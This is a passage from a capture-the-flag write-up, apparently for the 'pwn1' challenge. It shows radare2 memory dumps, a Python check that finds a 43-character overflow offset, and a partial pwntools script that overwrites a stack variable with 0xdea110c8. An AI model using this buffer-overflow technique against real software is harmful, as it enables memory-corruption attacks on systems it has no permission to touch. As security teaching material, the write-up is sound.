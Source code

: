 ```
[0x566188b2]> pxw @ fcnvar.var_10h
0xffbe1dc8  0x6c6c6c6b 0x6d6d6d6c 0x6e6e6e6d 0x6f6f6f6e  kllllmmmmnnnnooo
0xffbe1dd8  0x7070706f 0x71717170 0x72727271 0x73737372  oppppqqqqrrrrsss
0xffbe1de8  0x74747473 0x75757574 0x76767675 0x77777776  sttttuuuuvvvvwww
0xffbe1df8  0x78787877 0x79797978 0x7a7a7a79 0xffbe007a  wxxxxyyyyzzzz...
0xffbe1e08  0xf7eae000 0xf7ee675a 0xffbe1e80 0x00000000  ....Zg..........
0xffbe1e18  0xf7eae000 0x00000000 0x00000000 0x139049d8  .............I..
0xffbe1e28  0xf2772fc8 0x00000000 0x00000000 0x00000000  ./w.............
0xffbe1e38  0x00000040 0xf7efe024 0x00000000 0x00000000  @...$...........
0xffbe1e48  0xf7ee6869 0x56619fb0 0x00000001 0x566185c0  ih....aV......aV
0xffbe1e58  0x00000000 0x566185f1 0x56618779 0x00000001  ......aVy.aV....
0xffbe1e68  0xffbe1e84 0x566188f0 0x56618950 0xf7ee69b0  ......aVP.aV.i..
0xffbe1e78  0xffbe1e7c 0xf7efe940 0x00000001 0xffbe208d  |...@........ ..
0xffbe1e88  0x00000000 0xffbe20cd 0xffbe26b9 0xffbe26db  ..... ...&...&..
0xffbe1e98  0xffbe26f2 0xffbe2703 0xffbe2712 0xffbe2729  .&...'...'..)'..
0xffbe1ea8  0xffbe2734 0xffbe274e 0xffbe2778 0xffbe2782  4'..N'..x'...'..
0xffbe1eb8  0xffbe2796 0xffbe27a1 0xffbe27c3 0xffbe27ec  .'...'...'...'..
```

We see that we have written into var_10h after the third "k" in our pattern. So, the fourth k begins to write into var_10h. 

Let's check the length of our buffer using python.

```
In [12]: len("aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkk")
Out[12]: 43
```

So it takes 43 characters to totally write into var_3bh and then the 44th character will spill over into var_10h. 

Using pwntools, let us write our exploit! We will save it in a file called exploit.py.

Our exploit:

```
#!/usr/bin/env python2

from pwn import *

#start the ./pwn1 process and save it in variable p
p = process('./pwn1')

#this is our buffer to totally write into var_3bh
bufferBeforeOverwrite = "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkk"

#this is the value we write into var_10h, p32 as a function ensure that we are sending 32 bytes, and also packs up whatever value we want to send into little-endian
valueToSendForOverwrite = p32(0xdea110c8)

#this is our input we are sending on the third prompt

exploitToSend = bufferBeforeOverwrite + valueToSendForOverwrite

#receive until this phrase
print(p.recvuntil('name?'))

#what to send in response

print(p.sendline('Sir Lancelot of Camelot'))

print(p.recvuntil('quest?'))

print(p.sendline('To seek the Holy Grail.'))

print(p.recvuntil('secret?'))
```